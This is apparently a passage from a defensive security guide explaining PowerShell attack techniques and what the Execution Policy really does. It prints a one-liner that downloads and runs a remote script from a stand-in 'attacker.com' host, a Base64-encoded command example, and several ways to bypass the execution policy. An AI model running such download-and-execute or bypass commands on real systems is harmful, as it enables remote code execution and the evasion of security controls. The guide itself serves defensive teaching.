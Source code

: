 Fileless Malware Execution  
A key advantage of PowerShell for attackers is its ability to execute code directly in memory, leaving no files on the disk that could be scanned or analyzed forensically. This "zero-footprint" or "fileless" attack methodology is a hallmark of modern malware campaigns.1 A common technique involves downloading and executing a remote script in a single, non-interactive command line, making it ideal for initial payloads delivered via phishing emails or malicious documents.5 The command often looks like this:  
powershell.exe \-c "IEX (New-Object Net.WebClient).DownloadString('http://attacker.com/payload.ps1')"  
This command uses the Invoke-Expression cmdlet (alias IEX) to execute the content of a script fetched directly from a web server, without ever writing the .ps1 file to the local disk.13  
Obfuscation and Encoding  
To evade simple command-line logging and keyword-based detection, attackers frequently obfuscate their payloads. The \-EncodedCommand switch is a built-in feature of PowerShell that accepts a Base64-encoded string.9 This allows an attacker to conceal the entire script within an otherwise unintelligible block of text, bypassing security tools that are not configured to decode and inspect these commands.11 For example, the simple command Write-Host 'pwnd' can be encoded and executed as:  
powershell.exe \-EncodedCommand VwByAGkAdABlAC0ASABvAHMAdAAgACcAcAB3AG4AZAAhACcA  
Only advanced logging capabilities, such as Script Block Logging, can reliably capture the de-obfuscated version of these commands as they are processed by the PowerShell engine.14  
Alternative Bypass Methods  
The \-ExecutionPolicy Bypass flag is just one of many ways to circumvent the policy. A comprehensive defense must account for the full range of techniques, including:

* Piping Script Content: The content of a script can be read using Get-Content (or the command prompt's type command) and piped directly into the PowerShell executable, which executes it from standard input, a context where the Execution Policy does not apply.5  
  Get-Content.\\\\malicious\_script.ps1 | powershell.exe \-noprofile \-  
* **Interactive Console:** The Execution Policy only applies to the running of script files (.ps1). It does not prevent a user from opening an interactive PowerShell console and pasting the contents of a script directly into the terminal for execution.5  
* **Registry Modification:** An attacker with sufficient privileges can directly modify the registry keys where the Execution Policy settings are stored, changing the policy for the machine or user to a more permissive setting like Bypass or Unrestricted.5

### **1.3 The Execution Policy's True Purpose: A Safety Net, Not a Steel Wall**

To properly defend against PowerShell attacks, it is essential to use the Execution Policy as it was intended. It serves as a valuable first-line defense against accidental script execution by novice users, but it should never be considered a robust security control.17 The various policy levels offer different degrees of this "safety net" functionality 2:

* **Restricted:** The default on Windows client operating systems. It permits individual commands but does not allow any script files to run.  
* **AllSigned:** Requires that all scripts and configuration files be digitally signed by a trusted publisher. This is the most secure operational policy.  
* **RemoteSigned:** The default on Windows Server. It allows local, unsigned scripts to run but requires scripts downloaded from the internet to be signed by a trusted publisher.  
* **Unrestricted:** Allows all scripts to run. For scripts downloaded from the internet, it will prompt the user for confirmation before running.  
* **Bypass:** Nothing is blocked, and no warnings or prompts are issued.  
* **Undefined:** No policy is set in the current scope. If all scopes are Undefined, the effective policy becomes Restricted.

